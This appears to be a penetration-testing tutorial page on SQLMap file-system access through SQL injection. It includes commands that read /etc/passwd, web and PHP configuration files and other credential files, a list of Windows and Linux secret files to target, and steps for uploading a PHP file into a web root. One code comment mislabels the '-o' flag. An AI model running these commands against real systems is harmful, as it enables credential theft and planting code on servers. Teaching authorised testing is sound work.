 ```yaml
---
title: File System Access
description: Learn how to use SQLMap to access the target's file system
---
```


# File System Access with SQLMap

SQLMap provides powerful capabilities to interact with the target server's file system through SQL injection vulnerabilities. This section covers how to read, write, and execute files on the target system.


## Reading Files

<Tabs defaultValue="basic" className="pt-5 pb-1">
  <TabsList>
    <TabsTrigger value="basic">Basic Usage</TabsTrigger>
    <TabsTrigger value="advanced">Advanced Options</TabsTrigger>
    <TabsTrigger value="examples">Real-World Examples</TabsTrigger>
  </TabsList>
  <TabsContent value="basic">
    ### Basic File Reading

    To read files from the target system, use the `--file-read` parameter:

    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" --file-read="/etc/passwd"
    ```

    SQLMap will attempt to retrieve the specified file using the SQL injection vulnerability. The file will be stored in the output directory (default: `~/.sqlmap/output/`).
  </TabsContent>
  <TabsContent value="advanced">
    ### Advanced File Reading Options

    SQLMap offers several options to customize file reading:

    ```bash
    # Read multiple files
    sqlmap -u "http://target.com/vuln.php?id=1" --file-read="/etc/passwd" --file-read="/etc/hosts"

    # Specify output directory
    sqlmap -u "http://target.com/vuln.php?id=1" --file-read="/etc/passwd" -o

    # Use a specific technique
    sqlmap -u "http://target.com/vuln.php?id=1" --file-read="/etc/passwd" --technique=E
    ```

    The `-o` flag enables all optimization features, which can help with retrieving larger files more efficiently.
  </TabsContent>
  <TabsContent value="examples">
    ### Real-World Examples

    During penetration testing, you might want to retrieve configuration files that could contain sensitive information:

    ```bash
    # Web server configuration
    sqlmap -u "http://target.com/vuln.php?id=1" --file-read="/etc/apache2/apache2.conf"

    # PHP configuration
    sqlmap -u "http://target.com/vuln.php?id=1" --file-read="/etc/php/7.4/apache2/php.ini"

    # Web application configuration
    sqlmap -u "http://target.com/vuln.php?id=1" --file-read="/var/www/html/config.php"
    ```

    These files often contain database credentials, API keys, and other sensitive information.
  </TabsContent>
</Tabs>

## Writing Files

<Stepper>
  <StepperItem title="Prepare Your File">
    First, create the file you want to upload to the target system. For example, a simple PHP info script:
    
    ```php
    <?php phpinfo(); ?>
    ```
    
    Save this as `info.php` on your local machine.
  </StepperItem>
  <StepperItem title="Upload the File">
    Use the `--file-write` and `--file-dest` parameters to upload the file:
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" --file-write="info.php" --file-dest="/var/www/html/info.php"
    ```
    
    SQLMap will attempt to write your local file to the specified destination on the target server.
  </StepperItem>
  <StepperItem title="Verify the Upload">
    After uploading, verify that the file was successfully written by accessing it through the web browser:
    
    ```
    http://target.com/info.php
    ```
    
    If the PHP info page displays, the file was successfully uploaded and is executable.
  </StepperItem>
</Stepper>

## Common File System Targets

When accessing a target's file system, certain files and directories are particularly valuable for penetration testers:

<div className="grid grid-cols-1 md:grid-cols-2 gap-4 mt-6">
  <div className="border rounded-md p-4">
    <h3 className="text-lg font-semibold">Linux Systems</h3>
    <ul className="list-disc pl-5 mt-2">
      <li>/etc/passwd - User accounts</li>
      <li>/etc/shadow - Password hashes</li>
      <li>/etc/hosts - Host mappings</li>
      <li>/etc/apache2/apache2.conf - Web server config</li>
      <li>/var/www/html/ - Web root directory</li>
    </ul>
  </div>
  <div className="border rounded-md p-4">
    <h3 className="text-lg font-semibold">Windows Systems</h3>
    <ul className="list-disc pl-5 mt-2">
      <li>C:\Windows\System32\drivers\etc\hosts</li>
      <li>C:\inetpub\wwwroot\web.config</li>
      <li>C:\Windows\win.ini</li>
      <li>C:\Windows\repair\sam</li>
      <li>C:\xampp\htdocs\ - Common web root</li>
    </ul>
  </div>
</div>

## Directory Structure Example

Below is an example of a typical web application directory structure you might encounter:

```
/var/www/html/
├── index.php
├── config/
│   ├── database.php
│   └── settings.php
├── includes/
│   ├── header.php
│   └── footer.php
├── assets/
│   ├── css/
│   ├── js/
│   └── images/
└── uploads/
    └── user_files/
```

